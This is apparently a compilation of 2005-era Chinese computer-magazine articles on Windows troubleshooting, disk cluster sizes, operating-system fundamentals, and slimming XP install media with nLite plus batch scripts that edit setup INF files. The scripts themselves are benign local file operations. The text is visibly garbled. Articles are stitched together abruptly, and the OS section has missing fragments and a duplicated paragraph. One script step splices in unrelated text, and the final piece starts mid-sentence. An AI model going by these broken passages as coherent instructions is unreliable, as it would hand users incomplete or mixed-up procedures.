症状:Windows Update进行升级时出现0x8DDD0018错误(见图10)。打开“开始→Windows Update”命令进行升级，此时服务器系统提示“Windows Update无法继续，因为所需的服务应用程序已被禁用”或者在检查和下载更新时没有问题，但却安装失败。


## 数据:我还要扎堆

很多使用电脑多年的大虾，已经“折腾”死了多块硬盘，也曾无数次对硬盘重新分区、重新格式化、重装系统，其熟练程度达到了“闭上眼也能搞定”的境界，但他们在进行这些操作时，仅仅是重复劳动而已，往往忽略了一些细节问题，但这些似乎“不足挂齿”的小问题却是影响整个磁盘性能的关键所在，比如笔者今天要给大家介绍的“簇”……

### 硬盘里的文件如何存储

大家都知道硬盘上存储的数据都是以“文件”的形式出现的，不同的文件容量不同，可以大到几十甚至上百GB，也可以小到几个字节，它们是如何被存放到硬盘中的呢？
其实硬盘在经过低级格式化、分区、高级格式化之后，为了便于读取和管理，它的每个分区都已经被划分为多个小块，而每一小块就被称为一个“簇”(Cluster)。对于某个文件来说，如果它的容量大于单个簇的大小，那么该文件会存储到多个簇中，如果它的容量小于单个簇的大小，那么该文件会独占这个簇，而别的文件在存储时不能再被放到该簇中。
这就好比一栋楼(硬盘)被划分为多个楼层(分区)，而每个楼层又被划分为多间套房(簇)，划分之后我们要找住在其中的住户，只需要知道其楼层和房间号即可。如果一户人家中的成员(文件大小)很多，那有可能会买两套房子，如果家庭成员较少，一套房子仍有空余，则房子里的剩余空间也不会让隔壁邻居搬来住。

### 我的硬盘分区使用的簇大小是多少

知道“簇”代表了可以分配用来保存文件的最小磁盘空间量后，很多朋友就会有疑问了怎么我在格式化硬盘和安装系统时没有遇到过“簇”这个东东呢? 它的容量究竟是多大呢?
原来大家在使用Format命令格式化磁盘分区以及重装系统的时候，系统将使用默认值来分配单个簇的容量，所以大家不会察觉。这个默认值的大小跟你使用的文件系统(如FAT32、NTFS)以及磁盘分区的容量有关。以目前使用比较广泛的FAT32和NTFS文件系统为例，单个簇的默认容量大家可以参考下面两个表格:
一般情况下，大家可以对应上表判断自己每个硬盘分区所使用的簇大小。不过有个比较特殊的情况需要大家注意：如果在Windows XP/2003中使用Convert命令，将某磁盘分区由FAT32转换为NTFS格式，那么Windows总是使用512字节的簇大小，这是因为FAT32结构按512字节边界进行对齐，更大的簇大小则不允许转换。

表 1:FAT32默认簇容量
| 磁盘分区大小 | 默认簇容量 |
| :--- | :--- |
| 512MB-8GB | 4KB |
| 8GB-16GB | 8KB |
| 16GB-32GB | 16KB |
| 32GB或更大 | 32KB |

表 2:NTFS 默认簇容量
| 磁盘分区容量 | 默认簇容量 |
| :--- | :--- |
| 0MB-512MB | 512B |
| 513MB-1GB | 1KB |
| 1025MB-2GB | 2KB |
| 2049MB或更大 | 4KB |

### 为什么转换分区为NTFS后剩余空间变大了

很多朋友都有使用Convert命令成功将磁盘分区由FAT32格式转换为NTFS格式的经验，并且转换后惊喜地发现该磁盘分区的剩余空间容量变大了。这究竟是为什么呢? 要回答这个问题，让我们继续来研究一下上面的两个表格，从中至少可以发现两点规律:
1. 对于同属FAT32或NTFS文件系统的磁盘分区，分区容量越大则其对应的默认簇容量越大。
2. 使用NTFS文件系统的磁盘分区对应的默认簇容量要比使用FAT32的磁盘分区对应的默认簇容量小。
根据这两个规律，你能得出什么结论呢? 不管你的磁盘分区采用的是FAT32还是NTFS，某个磁盘分区的容量越大，其对应的簇容量则越大，那么存放在其中的文件就越容易占用较大的硬盘空间；而采用NTFS格式文件系统的磁盘分区与FAT32相比，由于其默认簇容量较小，那么存放在其中的文件就越节省空间。
笔者举个简单的例子：对于同样一个2GB大小的磁盘分区，如果采用FAT32文件系统，其对应的簇容量为4KB，如果采用NTFS文件系统，则其对应的簇容量为2KB。假如该分区存储了多个大小为2KB的文件，那么单个文件在FAT32系统中会占用单个簇，且每个簇还剩余2KB空间，当然这2KB空间是不能被其他文件填充的。而在NTFS文件系统中，则正好是单个文件占用单个簇。很明显，文件的存储效率在NTFS文件系统中要优于FAT32中。
而采用Convert命令将磁盘分区由FAT32转换为NTFS文件系统，不管分区容量为多大，其簇大小均为512字节，这样一来，其文件存储效率则非常之高了。这就是为什么FAT32转换为NTFS文件系统之后，磁盘的剩余空间变大的原因。实际上，从FAT16转换为FAT32是一样的结果，道理也一样。

### 磁盘分区的簇大小设置多少最合理?

既然簇大小越小，磁盘存储文件的效率越高，很多朋友就纳闷了，那我何不将簇大小设置得越小越好? 怎么还存在“设置多少合理”的问题?

笔者打个简单比方，如果某个存放中药的柜子(硬盘)，如果其抽屉(簇)越小，这样虽然可以让这个柜子存放更多种类的中药，但抽屉越小，那么同时也意味着它的抽屉数就越多，这样就会加大迅速找到某种中药的难度，增加查找时间。也就是说，如果簇大小设置得过低，会在一定程度上降低磁盘读取数据的性能。

那么对于磁盘分区的簇大小，究竟设置多少可以让其存储效率最高，又保证磁盘读取数据的性能最优呢? 其实这是一个矛盾的问题，我们只有根据实际情况来权衡，简单地讲主要有以下两个原则:
1. 如果某个磁盘分区存放的文件多数为小文件，比如JPG图片、TXT文档等，建议将簇大小设置得更小，这样可以提高硬盘的存储效率。
2. 如果某个磁盘分区存放的文件多数为大文件，比如电影、MP3等，那么建议将簇大小设置得尽可能大，这样可以增强磁盘读取数据的性能，同时也不会浪费太多空间。

### 实例: 为自己的磁盘分区设置最合理的簇大小

对于多数用户来讲，硬盘的规划可能是这样的: C为系统盘，D用于安装常用软件和游戏，E用来存放歌曲、电影，F则做备份之用。如果所有磁盘分区都采用FAT32文件系统，那么建议C、D、E、F分区分别设置簇大小为:4KB、8KB、32KB、16KB；如果所有磁盘分区都采用的NTFS系统，那么建议C、D、E、F分区分别设置簇大小为:512B、1KB、4KB、2KB。以Windows XP为例，其具体设置方法为:
第一步：依次打开“控制面板→管理工具→计算机管理”程序，切换到“存储→磁盘管理”标签，这里我们能看到各个分区采用的文件系统以及其运行状况。
第二步：分别选中不同的分区，右击并选择“格式化”菜单，在“分配单位大小”下拉列表中，选择合适的簇大小值，最后单击“确定”即可。

### 小提示

Windows自带的磁盘管理功能要更改簇大小则必须格式化磁盘分区，如果你不想为此丢失存储数据，可以使用PQ Magic等磁盘无损转换工具进行设置：运行PQ Magic后，在其主界面右击需要调整的分区名称，选择“高级→调整簇的大小”菜单，然后在“新建簇大小”后面选择新建簇的大小，再单击“确定”即可。
(四川 逍遥小小)

## 优化前我该想到什么

- 在停止一项服务前，应首先确定该服务不会对平时可能用到的系统功能产生影响。
- 对那些其他服务赖以生存(依附关系)的服务进行禁用、停止等操作时要更加谨慎，以防止连锁故障。
- 对停止后可能引发故障的服务在注册表中的项目进行备份，在出现故障时能更轻松地恢复。
(LoveLY)

## Windows XP SP1 的神秘“死亡”

读者 KLS: 我集成了Windows XP SP1的安装盘安装系统时，在安装没多久就会出现死机问题，无法继续安装，我怎么也找不到解决方案，能不能帮帮我？
一位有同样问题的读者杨剑也正好遇到了这个问题，就此他曾咨询过联想的工程师（他用的是品牌机），也在论坛里发过帖，但都没能得到解决。后来经过咨询、发帖及搜索，终于在网上找到了答案。
故障重现：在安装操作系统时，当屏幕显示离完成还剩34分钟（也就是安装才开始5分钟）时安装终止了，表现为安装进度条停止，硬盘灯几乎不闪，安装不再继续了。但重启后安装重新开始，再到34分钟这儿时就不再停了，一路安装直到完成。

故障分析: 这其实是USB鼠标惹的祸。而微软也提到了此问题，在Windows XP SP1中的Usbhub.sys驱动程序存在一个错误，如果在图形模式下的安装过程中有一个USB的鼠标或键盘连接到系统，可能就会导致该驱动停止响应，从而造成死机。
故障解决: 要解决这个问题，微软也提供了一种方法，就是将安装文件复制至硬盘上，然后手工替换Usbhub.sys，但这样比较麻烦，根据读者杨剑的经验提供了下面三种解决方法，当遇到这种现象时可保你“逢凶化吉，遇难成祥”:
1. 当安装停止时，看着你的手表，在秒针转过两圈后，按下机箱上的Reset按钮重启，这时去泡一杯上好的茶，可以休息一下了。
2. 当安装进行到还剩余35分钟时，拔下USB键盘、鼠标，进行到剩余33分钟时再插上去。
3. 去换一张没有SP1的安装盘，或有SP2的安装盘来安装。
不管怎么样，以后再遇到这种问题时，你就不必担心是硬盘坏了吧。
(杨剑)

## 来！让我们一起偷窥操作系统的隐私(上)

提起操作系统，大家会自然联想到Windows 98/XP。其实并不是只有Windows才属于操作系统范畴，DOS、Macintosh、Linux、FreeBSD等都算得上操作系统（见图1）。操作系统究竟指的什么，或者说如何才能称得上是操作系统呢？这正是本文要告诉你的内容。



### 基础篇

### 1.计算机离开操作系统就不能工作了吗？

其实早期的计算机并没有操作系统，一切操作都靠固化在内存中的汇编或BASIC语言，要启动计算机也非常麻烦，经常会听说某人用了13条指令启动计算机之类的，那个年代使用计算机的都是现在所说的高手。当编写一个文本处理程序相当困难，比如要编写一个文本处理程序，并实现保存功能，就必须编写磁盘写入相关的代码，而在Windows下所编写的程序实现保存，只需调用系统提供的API接口函数即可。就好比将物品由A地送到B地，如果没有快递公司（操作系统）则需要自己先查找A地到B地的路线图，然后步行或使用交通工具到达B地……而如果有了操作系统，就相当于委托了一家快递公司，当需要实现某些和底层硬件相关的功能时，只要打个电话给快递公司（调用操作系统提供的API函数），他们就会指派合适的快递员（调用操作系统对硬件的操作模块）来完成操作。

（1）实时操作系统（RTOS）:实时操作系统用于控制机械、科学器械和工业系统。典型的RTOS一般对不同的硬件设备兼容性较差，并且没有提供客户端接口，因此RTOS对用户来说是一个封装严密的‘盒子’。RTOS的重点在于确保计算机在执行某一特定的操作时总是正好花费同样的时间。对于结构复杂的机械来说，某个零件因为系统资源过剩而动作过快或因为系统繁忙而减缓动作都可能导致灾难性的结果。

写的程序放到同类型的计算机B上运行，即使两台机器的内存和显卡型号都不一样。任意一台计算机，操作系统都要确保在软硬件更新后应用程序仍能正常运行，因为是操作系统而不是应用程序在负责设备管理和资源分配。Windows 98在提供灵活性方面是一个绝好的例子，它能在数千厂家的硬件上运行，同时能兼容数千种打印机，硬盘等外围设备的任意组合。

### 3.操作系统族谱

在操作系统的大家庭里，按照其对应的计算机种类和应用方向一般可分为四类。

（4）多用户：多用户操作系统允许多个不同用户同时使用计算机资源。这种操作系统要确保不同用户的需求平衡，而不同用户的所有程序都要有足够的，同时又是相互独立的资源，以避免一个用户出现问题时其他用户受到影响，例如Unix、VMS以及大型机上用的MVS等。这里有必要区分一下多用户操作系统和支持网络的单用户操作系统。Windows 2000和Novell NetWare都能支持成百上千的联网用户，但操作系统本身并不是真正意义上的多用户系统。Windows 2000和Novell NetWare的唯一用户。网络支持以及网络上所有远程用户的登录，在系统看来只是系统管理员运行的一个额外程序而已。





### 功能篇

### 操作系统怎么管我的处理器

管理处理器有两个核心要点：①确保每个进程和应用都能得到足够的处理器时间来正常运作。②尽量将处理器时间用于实际的工作，操作系统在安排处理器工作的过程中，处理软件的基本单元是进程和线程。

人们很容易将进程理解成应用程序，但那是一个不完全准确的描述，因为它不能反映进程与操作系统及硬件设备的关系。你所看到的应用程序（比如Word、Excel、游戏等）的的确确是一个进程，但这个应用程序很可能触发其他若干进程，用以完成诸如与其他设备和计算机的通信等任务。还有一些你无法直接看到的进程也在‘默默’运行着（比如Windows的一些服务进程）。

的的确确是一个进程，但这个应用程序很可能触发其他若干进程，用以完成诸如与其他设备和计算机的通信等任务。还有一些你无法直接看到的进程也在‘默默’运行着（比如Windows的一些服务进程）。

因此可以将‘进程’定义为：能够实现一定的功能，并由用户、应用程序或者操作系统所控制的软件。

操作系统控制并安排CPU运行的单元是进程而不是应用程序。在单任务系统中，这种安排方式是非常容易理解的。在操作系统的许可下，程序开始运行，只有在处理中断信号或者用户输入的时候才被暂时挂起。

### 小知识

### 中断信号是什么

所谓中断信号是指一些从软件和硬件发至CPU的特殊信号。就好像计算机的某个部件在现场会议当中突然举手提请会议负责人（CPU）注意。有时候操作系统会赋予进程高的优先级，这时候部分中断就被屏蔽了——也就是说，操作系统会忽略某些来源（比如某个程序忽略‘用户输入’中断时，你在该程序中进行的鼠标键盘等操作就毫无用处）的中断从而尽可能快地完成某一特定的工作。有一些很重要的中断（比如发生错误或者内存出现问题）则不能被忽略，不论手头正在处理什么样的任务，这些‘无法屏蔽的中断’（non-mask able interrupts NMI）必须马上处理。

如果说中断使得单任务系统中的进程运行方式变得复杂，那么在多任务系统（见图4）中这项工作就更复杂了。因为现在操作系统必须巧妙地安排应用程序的执行时间让你感觉是好几件事在同时进行。问题在于CPU同一时间只能做一件事，为了看上去像是很多事同时进行，操作系统必须每秒数千次地在不同进程之间切换。它是这样实现的：

- 第一步：为每个进程分配一定的随机存储器（RAM），进程同时也能够使用CPU和操作系统内存空间中的寄存器、堆栈和队列。
- 第二步：当两个进程进行多任务，操作系统为每个程序分派一定数量的CPU执行周期。
- 第三步：在一个进程被分配到的CPU时间用完之后就会暂时挂起，操作系统将所有这些进程用到的寄存器、堆栈和队列状态复制下来，并标记进程暂停在执行步骤中的位置。
- 第四步：导入第二个进程所使用的寄存器、堆栈和队列，让其使用它被分配到的CPU时间。
- 第五步：第二个进程的CPU时间用完后也被挂起，操作系统复制该进程所使用的寄存器、堆栈和队列，然后重新导入第一个进程，进入下一轮循环。切换进程时需要保存的数据（包括寄存器、堆栈和队列）都保存在一个称为进程控制块的数据包中，进程控制块包括以下内容。

①一个标识进程的ID号码 相当于进程的门牌号码，系统为每个进程都分配了一个门牌号码，当系统要找某个进程时，它并不会喊‘×××进程，你给我出来！’，而是喊：‘编号为03（也可能是其他数字）的进程，你给我出来！’

②指向进程最后运行位置的指针和指向进程数据位置的指针 就好比打扫房间时，突然想起厨房烧的水该开了，就先去厨房关煤气，然后回来接着打扫房间。而指向进程最后运行位置的指针就是告诉系统刚才已经打扫了哪几个房间，应该从哪个没打扫过的房间继续。而指向进程数据位置的指针就是告诉系统用来打扫房间的工具（如扫帚、拖把）刚才放在哪儿了。

## 我的 Windows XP 安装盘只有 200MB！

从原先 Windows 98 占用磁盘空间 500MB，到现在 Windows XP 的近 2GB，Windows 几次升级让 “老机” 们越来越不堪重负。实际有相当数量的功能组件你根本用不到。将它们剔除后，在配置较低的电脑上也能顺利安装 Windows XP/2003 等系统。在网上甚至已经有牛人通过精简将 Windows XP SP2 安装在了只有 32MB 内存的电脑上(32MB 只是能够启动，要实现基本功能则必须 64MB 以上)。我们今天要做的，不是从已经臃肿无比的系统中剔除赘肉，而是直接从安装文件入手，制作出一个精简版的 Windows。先介绍一下要使用的工具——nLite。

## nLite 小档案

- 软件版本:0.99.9Beta
- 软件大小:1027KB
- 软件性质:免费软件
- 适用平台:Windows 2000/XP/2003
- 下载地址:http://www.onlinedown.net/soft/31296.htm
- 软件备注:运行 nLite 需要.NET Framework 运行库，根据提示在 http://download.microsoft.com/download/a/a/c/aac39226-8825-44ce-90e3-b18203e74006/dotnetfx.exe 下载安装后即可正常使用 nLite。另外，经测试发现 nLite 对 Windows 2000 的支持度不及 Windows XP/2003 理想。

## 减肥计划进行中

相信你已经安装好了 nLite，现在以精简 Windows XP 安装文件为例为大家介绍 nLite 的基本使用。



第一步: 运行 nLite，出现向导界面，在其中的 “Language” 框中选择 “Simplified Chinese”(简体中文)，nLite 就自动切换至简体中文界面了(见图 1)，点击 “前进”。



第二步: 选择 Windows 安装文件所在位置，如果是 ISO 文件请先使用 WinISO 或 WinRAR 解压到临时目录中再进行选择，所选目录中应含有 I386 目录及相关安装文件(见图 2)。选择了正确目录后，在 nLite 向导的 “信息” 框中就显示出了指定 Windows 安装文件的版本、语言、路径、大小和安装文件所在盘符的剩余空间(见图 3)，确认无误后点击 “前进”。




第三步: 选择需要进行的任务，其中包括了 “Service Pack 整合”、 “修补程序包整合”、 “驱动整合”、 “组件移除”、 “无人值守安装”、 “选项和优化”、 “可引导 ISO 镜像” 7 个选项按钮(见图 4)。比较常用的是 “Service Pack 整合” 及 “组件移除”，选择好后点击 “前进” 进入下一步。



第四步: 由于第一次使用 nLite，所以先前并没有保存任务以前操作的预设文件，故在出现的 “预设( 导入其他设置或是加载上次设置)” 框中点击 “前进” 进入刚才选择的任务执行界面中。由于本例中勾选了 “Service Pack 整合” 及 “组件移除”，所以首先进行前者设置，在对话框中显示了当前的 Windows 版本，点击 “请选择要整合的 Service Pack” 右侧的 “选择” 按钮，在文件选择框中选择要整合的 SP 包(EXE 格式)即可，如 Windows XP SP1 可以整合 SP2 包(本文中进行操作的文件已经是最新的 Windows XP SP2，暂时没有 SP 可以整合了)，点击 “前进” 进入下一个任务。

第五步: 弹出的 “兼容” 对话框可能吓了你一跳(见图 5)，在此对话框中可以勾选所需要的功能，这样就能避免后面的精简操作误删了支持这些功能所需要的组件。在 “组件移除” 列表中以树状目录分类方式列出了系统中的所有组件；红色显示的是非常重要的系统组件，不推荐删除；黑色显示的则是可以删除的部分，删除后一般不会出现问题。另外，将鼠标悬停在某个组件的上方时，可以看到该组件的详细说明和大小以及该组件所依赖的组件信息(见图 6)。选择完成后点击 “前进”，在弹出的提示框中确认即开始处理过程，完成后在状态条上会显示 “完毕”，点击 “前进” 然后在最后的向导界面中点击 “完成”，大功告成。



## 听听老鸟们的经验谈

显示为红色的组件到底应不应该删除？显示为黑色的组件是否一定可以删除？来听听 nLite 老鸟是怎么说的：

### 1.多媒体

在此部分中可以清楚地看到 Windows Media Player 6.4 显示为红色。你可能会想，现在大家都已经使用 9.0、10.0 这样的高版本了，为什么还要保留这个 6.4 版本呢？当你将鼠标悬停在另一个高版本的 Windows Media Player 上时，右侧显示的信息会让你恍然大悟：“依赖 Windows Media Player 6.4，Internet Explorer 核心”，原来高版本的 Windows Media Player 是以 6.4 版本为基础的。但如果你的系统是单纯用来作为服务器的，那么这个组件就可以放心地删除了。

### 2.操作系统选项

建议保留 “输入法编辑器”、 “手动安装和升级” 以及 “开包即用(OOBE)” 组件。

## 巧用批处理 自己打造nLite超强版

nLite目前仍处在Beta测试阶段，存在很多未解决的BUG和不足之处。特别是对于中文版Windows，问题更是严重。为弥补nLite的不足，我决定自己动手打造nLite增强版。

### nLite的三宗罪

#### 1. 过度精简可能导致“营养不良”

使用nLite的初学者往往喜欢追求极端的精简效果，而导致过度精简。安装完系统后，使用一段时间才发现很多软件无法正常使用。由于nLite将安装源文件精简了，安装后如果发现少了什么东西再添加回去非常困难，迫不得已只好重装。其实严格来说这不能算nLite的缺点，而是使用者自身的问题。

#### 2. nLite自身不完善

由于nLite发展时间还较短，还存在一些BUG和问题，比较明显的有3个：

①损坏硬盘安装(即“手动安装”)的相关文件，所以在DOS下或从硬盘中安装精简版可能会提示缺少文件，不过此问题可以通过将安装目录指向i386目录加以解决。

②经nLite精简过的系统，在发现新硬件时，即使是系统本身支持的硬件(即自带驱动)安装驱动也会很慢，而且会弹出对话框提示确认。这是由于nLite破坏了驱动程序的数字签名。要解决此问题只有期待新版本nLite了，由于并不影响实际使用，所以作者说等1.0版本后才会考虑解决。

③对中文支持不够好，不是说nLite程序本身不能支持中文，而是说nLite对中文版Windows的支持还不够好，对我们影响最大的一个问题就是中文输入法问题。如果精简了语言文件，会造成“微软拼音输入法”缺少文件，导致这个输入法不能用，而且会关闭正在输入文字的程序(在切换输入法时也会出现此问题)，比如“记事本”、Office等。

#### 3. 无法满足更细化的要求

比如nLite可以删除“语言”组件，但不能仅仅删除输入法；nLite可以删除“显示适配器”驱动，但无法删除某个特定类型的显卡驱动(比如仅仅删除Matrox公司的G200显卡驱动)；还有上文中删除“手动升级和安装”时遇到的麻烦。这些都需要手工来解决，当然你也可以期待nLite在以后的版本中解决，但谁知道会在哪个版本呢？

### 救赎nLite的三宗罪

#### 1. 为什么要进行后期处理

虽然新版nLite已经能很好地工作了，但仍需进一步改造才能满足我们的需求。这里我用批处理脚本来自动化地完成这一切，有人可能会问为什么选择脚本呢？其实最初我也是纯粹手工进行的，但几次后就发现这样太浪费时间了，并且极易在某些环节犯错，最后我决定将这种重复性工作交给电脑来完成。

#### 2. nLite的原理

要对nLite精简后的Windows安装文件进行后期加工，就不得不先学习一下nLite的运作方式了。Windows安装程序使用配置文件来控制安装过程，主要的配置文件有layout.inf, dosnet.inf, txtsetup.sif。layout.inf用于记录每一个文件在Windows光盘上的位置；dosnet.inf用于控制哪些文件需要从Windows安装光盘被复制到硬盘的临时文件目录来完成安装；txtsetup.sif负责Windows安装程序最初处于文本界面时的文件复制。当然还有其他几个文件，比如 Drvindex.inf 用于记录驱动程序，如果要删除 Windows XP 自带的某个驱动，需要删除该驱动在 Drvindex.inf 中引用的记录，如果需要添加某个驱动，则可按照 Drvindex.inf 中其他驱动的格式来添加。intl.inf 负责安装多国语言支持。这些文件在 Windows 安装盘中都是未压缩的，前4个是普通的 ASCII 文本文件，而 intl.inf 则是 Unicode 编码的文本文件。还有很多压缩的 INF 文件，负责组件和驱动程序的安装，除了 txtsetup.sif 外都是 INF 文件。在英文版的 Windows 上只有 intl.inf 是 Unicode 编码的，而在中文版的 Windows 上大多数 INF 文件都是 Unicode 编码的。

nLite精简原理简单来说就是在指定要精简的文件(比如写字板 wordpad.exe)后，在所有的 Windows 配置文件中查找出现“wordpad.exe”的地方并进行删除和修改，这样 Windows 安装程序在读取配置文件进行安装过程时就不会安装这个文件了。如果需要删除组件则不能修改 layout.inf，因为此文件仅指定文件的位置，而不能决定该文件是否安装。

#### 3. 三拳两脚搞定nLite

工具准备：为了弥补Windows命令的不足，本文采用了几个体积小巧却功能强大的GNU工具(关于GNU的概念请参考本刊今年第10期的《稀饭魔语大辞典》)，可以从http://www.newhua.com/cfan/200511/gnu.zip下载。压缩包中包含了3个小工具，分别为 sed (通过命令行编辑文件)、fgrep (类似于 findstr 命令)、recode (用于转换Unicode编码的文本文件)，下载解压后请放在与i386目录平级的位置。

* 本文的所有脚本已打包提供下载，下载地址:http://www.newhua.com/cfan/200511/nlitebat.rar。

##### (1) 准备工作：INF集中整理

Windows安装文件大多压缩过(见图1)，要修改那些压缩过的INF文件怎么办？把下面的批处理命令保存为ripinf.cmd文件(其中rem语句后的为脚本的注释)，放在Windows XP安装文件目录中(ripinf.cmd 应与 i386目录同级):



```
if exist inf rd /s /Q inf
rem 把所有的in? 为后缀的文件复制到inf目录
xcopy i386\*.in? inf\
cd inf
rem 解压缩所有的in_文件
expand -r *.in_
md inftmp
rem 分离inf文件和非inf文件
move *.inf inftmp\
del /Q *
move inftmp\* .
rd /s /q inftmp
rem 把所有的sif 为后缀的文件复制到inf目录，一般仅仅是 txtsetup.sif
xcopy ..\i386\*.sif
```

双击执行ripinf.cmd后，就可以在INF目录中找到所有已经解压缩的Windows配置文件了。

##### (2) 开始发招：批处理解决大问题

首先备份nLite处理之后的目录，把该目录复制一份，这样手工删除组件时一旦出错，还可以回到刚才nLite结束时的状态，避免了重新进行耗时的nLite过程。

###### ①精简nLite不能删除的某些组件

删除“手动升级”。打开“资源管理器”，进入nLite之后的安装文件目录中的I386目录，I386目录下的WIN9XMIG、WIN9XUPG、WINNTUPG目录，分别用于支持从Windows 9x/NT升级安装Windows XP，这3个目录大约占用38MB空间(见图2)，这就是上文中“手动升级”、“开包即用(OOBE)”。保留“输入法编辑器”是因为需要使用中文输入法，如果不需要输入中文则可以删除。“手动安装和升级”用于从硬盘或者软盘启动来安装Windows的，如果你仅仅需要从光盘启动安装Windows的话，可以删除。该组件大小为44MB(见图7)，我更多时候是从硬盘上手动安装Windows，而很少使用光盘启动安装，所以保留这个组件。这个组件实际上分成2个部分，“手动安装”和“手动升级”，目前对于个人用户应该说很少有人需要“手动升级”了(即把Windows 98/NT/2000升级为Windows XP)。但在nLite中“手动安装和升级”是作为一个组件来处理的，要处理掉“手动升级”这个鸡肋同时也意味着失去“手动安装”。“开包即用(OOBE)”用于Windows的激活，如果是免激活的大客户版本Windows XP(即VOL)则可以删除，但如果是零售版的Windows XP，就不能删除该组件，否则将导致无法激活Windows XP，你辛辛苦苦安装好的系统可能就无法启动了。

###### ②精简内存盘驱动 ramdisk

你可能会问 ramdisk 是什么，为什么要精简它？正常运行 XP 的时候，并不需要这个 ramdisk（内存盘）驱动（这个内存盘不同于以前介绍过的的内存盘，它主要用于从光盘上运行的 Windows XP PE 或者嵌入式的 Windows XP），所以这个 ramdisk 几乎无用，精简掉后还能进一步减少系统启动时加载驱动的时间。从而加快启动速度，减少内存占用。

选择一款对 Unicode 文件支持较好的文本编辑器（本文选用 EmEditor），在刚才的“准备工作”步骤中所获得的 INF 目录中搜索“ramdisk”关键字（不含引号）。在 EmEditor 中即为：选择菜单“Search→Find in Files”（搜索→在文件中寻找），在弹出的搜索框中将文件类型设置为 *.*，下方的“encoding”（文字编码）使用缺省的“configed encoding”（自动切换 Unicode 编码进行搜索）。最后在搜索结果中我们可以发现在 defltwk.inf、dosnet.inf、dwup.inf、layout.inf、ramdisk.inf、txtsetup.sif 中包含“ramdisk.sys”和“ramdisk.inf”。经测试，只需删除 dosnet.inf、txtsetup.sif 这 2 个文件中出现 ramdisk 的行即可，将以下脚本保存为 ripramdisk.cmd，和刚才建立的几个 CMD 文件放在一起。

```
rem 把 i386\dosnet.inf 不包含 ramdisk 的行存为 tmpinf 文件
findstr /I /V ramdisk i386\dosnet.inf >tmpinf
rem 用 tmpinf 文件覆盖原来的 i386\dosnet.inf，这样就从 i386\dosnet.inf 删除了包含 ramdisk 的行。
move /Y tmpinf i386\dosnet.inf
rem 同理删除 txtsetup.sif 中的 ramdisk
findstr /I /V ramdisk i386\TXTSETUP.SIF >tmpinf
move /Y tmpinf i386\TXTSETUP.SIF
rem 实际要删除的文件名记录到 allfilefordel.txt 中以后集中删除或者交给 nLite 去删除
echo ramdisk.sys>>allfilefordel.txt
echo ramdisk.inf>>allfilefordel.txt
```

###### ③精简“智能 ABC”以外的所有输入法

我们这样做的理由是：

★ 东亚语言输入法非常庞大，输入法目录包含日韩繁简各种输入法文件约 100MB 左右，而 nLite 不能单独删除输入法。

★ 并且 nLite 对中文版 Windows 的支持还不够好，对我们影响最大的问题莫过于中文输入法问题。如果你精简了语言文件，会造成微软拼音输入法缺少文件，并导致其他一些程序故障。

★ Windows XP 自带输入法不够方便。在安装完 Windows XP，需要另外安装新的输入法，如紫光、拼音加加、微软拼音 2003，极点五笔等，所以删除自带输入法非常必要。

小提示

“微软拼音 2003”可从 http://www.microsoft.com/downloads/details.aspx?FamilyID=3C381308-E169-41F3-812E-AA8774162795&displaylang=zh-cn 下载，或安装 Office XP/2003 完整版中附带的该输入法。



还是用刚才精简 ramdisk 时的方法，在 INF 目录搜索输入法相关的文件。我知道 winzm 是 Windows 的郑码输入法，搜索 winzm 的结果如图 3 所示。从图中可以知道输入法文件和 defltwk.inf、DOSNET.INF、dwup.inf、HIVESYS.INF、INTL.INF、LAYOUT.INF、sysfiles.inf、TXTSETUP.SIF 相关。查看文件内容后（见图 4）确定 hivesys.inf 和 intl.inf 文件包含了输入法的注册表信息，而从刚才的图 3 可以确定输入法的名称信息保存在 dosnet.inf、layout.inf、intl.inf、txtsetup.sif 中。我们要做的就是修改 dosnet.inf, hivesys.inf, intl.inf, txtsetup.sif 这 4 个文件，删除其中与输入法相关的信息。

同样，我们可以用脚本来完成这些工作。由于脚本较长，在此不列出代码，解压后将 ripime.cmd 放置在上文存放 CMD 文件的目录中，此脚本适用 Windows XP/2003。

运行这个批处理文件，需要删除的文件列表就在 allfilefordel.txt 这个文件中了，将该列表复制到 nLite 的“保留或移除额外文件”对话框的“要移除的额外文件”框中（参考本期《我的 Windows XP 安装盘只有 200MB！》），nLite 在精简时就会自动帮我们删除这些文件。同样，如果想要保留某种输入法，可以从刚才获取的输入法文件和注册表项列表中将要保留的输入法过滤掉。

##### (3) 集合所有脚本

将下面的命令保存为 postnLite.cmd，放置在刚才保存其他 CMD 文件的位置：

```
call ripupgrate.cmd
call ripramdisk.cmd
call ripime.cmd
```

这个脚本自动调用了刚才建立的 3 个批处理脚本。在每次使用 nLite 进行精简之后，在 Windows 安装目录中执行此脚本就能完成所有修补工作。

##### 4. 安装

在 nLite 完成修改之后，为了保证安装文件没有问题，可以用 VMware 虚拟机软件进行测试。测试的步骤如下，另外请关注本刊近期将推出的 nLite 后续测试文章。

1. 在虚拟机中使用光盘启动安装，检查是否有什么问题。
2. 在虚拟机的 Windows 下安装，执行 i386 目录下的 Winnt32.exe 文件，然后按照提示一步步去做。检查是否有问题，进入 i386 目录后，可以使用“winnt32 /s:i386 /unattend:winnt.sif /copysource:lang”命令实现全自动安装。
3. 在虚拟机中使用 Windows 98 启动盘启动到 DOS 命令提示符下，接着执行 smartdrv.exe（Windows 98 安装光盘中有此文件），再进入 Windows XP 安装目录中的 i386 目录，输入“winnt /s i386 /u:winnt.sif”命令，实现全自动安装。

(山东 高峰)



## 比MD更快、更方便地建立文件夹

期号/文章: 2005年第6期《DOS快餐店（三）》

读者 Lucky: 在学会了使用 DOS 方式新建文件夹后，效率比原来提高很多。可是遇到同时在多个文件夹内新建子文件夹时，还是会遇到点麻烦，有没有更简单的方法呢？

### MakeNewFolder 小档案

- 软件版本: 2.1.1
- 软件大小: 922KB
- 软件性质: 免费软件
- 适用平台: Windows98/2000/XP
- 下载地址: http://www.newhua.com/cfan/200510/mmf21.exe



后关闭）按钮，文件夹就新建好了。

当 MakeNewFolder 找不到资源管理器窗口或资源管理器窗口不处于活动状态时，会出现提示框（见图），点击“Quit”（退出）按钮关闭程序，或者点击“Create on desktop”（在桌面建立）按钮在桌面上创建文件。选择“Always create on desktop if no Explorer”项可以禁用该提示框，而直接将文件夹建立在桌面。

